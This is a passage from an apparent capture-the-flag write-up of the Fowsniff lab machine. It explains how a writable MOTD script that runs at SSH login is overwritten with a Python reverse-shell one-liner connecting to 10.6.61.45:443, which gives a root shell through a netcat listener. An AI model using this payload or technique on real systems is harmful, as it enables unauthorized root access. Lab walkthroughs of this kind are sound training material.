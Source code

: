 LinPEAS finds an insteresting file which is writable:

![group.png](../assets/fowsniff_assets/group.png) 

And if we view the 00-header file in `/etc/update-motd.d/` we find it executes `/opt/cube/cube.sh` when someone logs into SSH. `sh /opt/cube/cube.sh` 

So, looks like we should be able to overwrite a reverse shell to the file, set up a NetCat listener, login to SSH again, and the script will execute our shell as root.Lets give it a try:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![cube.png](../assets/fowsniff_assets/cube.png)

We can then set up a listener and SSH back into the machine to catch a shell back

![root_shell.png](../assets/fowsniff_assets/root_shell.png)

